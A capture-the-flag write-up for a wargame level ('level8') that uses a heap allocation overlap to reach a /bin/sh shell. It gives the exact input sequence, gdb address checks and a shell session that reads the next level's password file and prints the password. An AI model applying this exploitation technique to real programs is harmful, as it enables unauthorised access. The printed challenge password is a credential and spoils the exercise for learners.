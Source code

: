 # level8

In this level, all we have to do is analyse the code...
```bash
> ./level8
(nil), (nil)
<text-input>
(nil), (nil)
test
(nil), (nil)
CTRL-D
```

Ok so let's disassemble the code with gdb and trying to understand all (see source).

If we send `auth ` (be careful to the space after auth), this create a malloc of size 4 (VAR_2)

If we send `reset`, this free the VAR_2

If we send `service` (or `servic`), this duplicate all the text after `service` in VAR_1 (if `service012345` -> VAR_1 = `012345`).

If we send `login`:
- If VAR_2 (created by `auth `) + 32 is `0`, write `Password:` and continue.
- Else, open `/bin/sh` <- this is the goal.

# Exploit

The VAR_2 + 32 char is undefined at start but if we create a new string with service, this string will be after VAR_2 in memory.

So all we have to do is to create the VAR_2, then create a VAR_1 (with more than 16 char to create a 24 oct allocation).

```bash
> ./level8
(nil), (nil)
auth    ; dont forget the space after auth: "auth "
0x804a008, (nil)
service0123456701234567  ; there is 16 char + '\n' so 17 in total
0x804a008, 0x804a018
login
/bin/sh: 1: nonzero_return: not found
\[\e[32m\]\u\[\e[m\] \[\e[33m\]\w\[\e[m\] \[\e[31m\]\[\e[m\]$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```



---
```
// auth
x/s 0x08049aac
// service
x/s 0x08049ab0
```

```
p/d 0x08049ab0 - 0x08049aac
$1 = 4
```
```
service + 28  // (32 - 4)

"service 123456789abcdefghijklmnopqrs"
```
